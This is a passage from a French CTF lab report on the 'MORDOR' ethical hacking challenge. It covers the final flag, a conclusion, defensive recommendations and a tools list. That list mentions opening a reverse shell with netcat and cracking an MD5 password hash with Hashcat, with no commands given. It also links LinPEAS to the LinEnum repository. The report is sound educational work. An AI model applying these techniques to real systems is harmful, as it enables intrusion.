Cette trouvaille a été cruciale, car elle nous a finalement permis de dénicher le flag du défi 6, astucieusement dissimulé dans le fichier. La découverte de ce flag a marqué le point culminant de notre défi, concluant cette étape de manière triomphante.

<a name="_page33_x72.00_y197.84"></a>Conclusion

En concluant notre rapport sur le défi de piratage éthique MORDOR, nous, Florent et Billal, tenons à souligner l'importance cruciale d'une approche méthodique et réfléchie en cybersécurité. À travers les défis relevés, nous avons non seulement approfondi nos compétences techniques, mais avons aussi acquis une compréhension plus nuancée des vulnérabilités et des méthodes de défense.

Ce CTF a été une occasion inestimable d'appliquer nos connaissances théoriques dans un environnement pratique et stimulant, nous préparant ainsi pour les défis réels de la cybersécurité dans le monde professionnel.

Les leçons tirées de cette expérience renforcent notre engagement à rester vigilants, innovants et toujours prêts à apprendre dans ce domaine en constante évolution.

Nous espérons que notre parcours et nos découvertes inspireront d'autres passionnés de cybersécurité et contribueront à renforcer la sécurité informatique dans notre communauté.

<a name="_page34_x72.00_y129.69"></a>Phase de Recommandations

Après avoir mené à bien nos défis et acquis une compréhension approfondie des vulnérabilités rencontrées, nous aimerions offrir plusieurs recommandations pour renforcer la sécurité du système que nous avons testé. Ces suggestions visent à prévenir les types de vulnérabilités que nous avons exploitées et à améliorer la posture de sécurité globale de la machine cible.

Gestion des Mots de Passes:

- **Éviter les Mots de Passe en Clair** : Nous recommandons de ne jamais stocker les mots de passe en clair, comme observé dans l'interface phpMyAdmin. Il est essentiel d'utiliser un stockage sécurisé, tel que le hachage avec un sel, pour protéger les informations d'identification.

Mise à jour du Système d'Exploitation:

- **Passer à la Dernière Version d'Ubuntu** : Il est conseillé de mettre à niveau vers la dernière version stable d'Ubuntu pour bénéficier des dernières corrections de sécurité et des améliorations de performance.

Sécurité des Applications Web:

- **Contrôles d'Upload de Fichiers** : Nous suggérons de renforcer les contrôles sur les fonctionnalités d'upload. Cela comprend la mise en place de listes blanches pour les types de fichiers autorisés, la vérification de la taille des fichiers, et l'implémentation de scanners antivirus pour détecter les fichiers malveillants.
- **Limitation des Accès aux Fichiers et Répertoires** : Il est crucial de restreindre l'accès aux fichiers et répertoires sensibles. Des permissions strictes doivent être appliquées pour éviter l'accès non autorisé ou la modification de fichiers importants.

Mise à jour et Maintenance du Système:

- **Mises à Jour Régulières** : Garantir des mises à jour régulières pour tous les systèmes et logiciels pour corriger les vulnérabilités.

Sécurité des Comptes Utilisateurs:

- **Politiques de Mots de Passe Forts** : Adopter des politiques exigeant des mots de passe robustes pour tous les utilisateurs.
- **Gestion des Privilèges** : Appliquer le principe du moindre privilège pour réduire les risques d'exploitation des comptes privilégiés.

Infrastructure et Réseau:

- **Isolation et Segmentation** : Utiliser la virtualisation pour isoler les services critiques.
- **Surveillance et Audits de Sécurité** : Mettre en place des systèmes de surveillance pour détecter les activités suspectes et effectuer des audits réguliers.

Formation et Sensibilisation:

- **Programmes de Formation en Cybersécurité** : Sensibiliser les employés aux menaces et aux meilleures pratiques de sécurité.

Tests de Pénétration:

- **Audits de Sécurité Réguliers** : Réaliser des tests de pénétration périodiques pour identifier et corriger les vulnérabilités.

Ces mesures, si mises en œuvre efficacement, peuvent grandement améliorer la sécurité de l'environnement informatique, en se protégeant contre les vulnérabilités que nous avons exploitées et en préparant la défense contre de futures attaques. Notre expérience nous a montré l'importance d'une approche proactive en matière de cybersécurité.

<a name="_page36_x72.00_y72.00"></a>Références

Outils Utilisés

Dans le cadre de nos défis, plusieurs outils ont été utilisés pour mener à bien les différentes étapes du CTF. Voici une liste détaillée de ces outils, avec une brève description de leur fonction et de la manière dont nous les avons employés :

1. [Nmap ](https://github.com/nmap/nmap):
- Utilisé pour scanner la machine cible afin d'identifier les ports ouverts et les services en cours d'exécution. Cet outil nous a aidés à découvrir les points d'entrée potentiels.
2. [Legion ](https://github.com/GoVanguard/legion):
   1. Pour effectuer des scans de réseau similaires à Nmap et identifier des vulnérabilités.
2. [Metasploit](https://github.com/rapid7/metasploit-framework) :
- Employé pour tenter d'exploiter les vulnérabilités connues dans les services identifiés par Nmap. Bien que nous n'ayons pas trouvé de résultats concluants avec Metasploit, cet outil reste essentiel dans notre boîte à outils.
4. [Gobuster ](https://github.com/OJ/gobuster):
- Utilisé pour le balayage des répertoires et fichiers sur le serveur web. Cela nous a permis de découvrir des chemins cachés et des informations intéressantes sur le site web de la machine cible.
5. [LinPEAS ](https://github.com/rebootuser/LinEnum):
- Importé directement depuis GitHub, cet outil nous a aidés à effectuer une énumération approfondie de la machine cible pour identifier les vulnérabilités potentielles.
6. [Python ](https://github.com/python):
- Employé pour exécuter des scripts personnalisés et des commandes d'escalade de privilèges.
7. [Netcat (nc)](https://www.kali.org/tools/netcat/) :
- Utilisé pour établir des connexions réseau et créer un reverse shell sur la machine cible.
8. [Hashcat ](https://hashcat.net/hashcat/):
- Employé pour le craquage de mots de passe. Dans notre cas, nous l'avons utilisé pour déchiffrer le hash MD5 du mot de passe de Samwise Gamgee.

Ces outils, combinés à notre méthodologie et à nos compétences techniques, ont été essentiels pour relever avec succès les défis du CTF. Ils représentent une partie intégrante de notre arsenal en tant que pentesters et ont joué un rôle crucial dans notre parcours au sein du défi MORDOR.
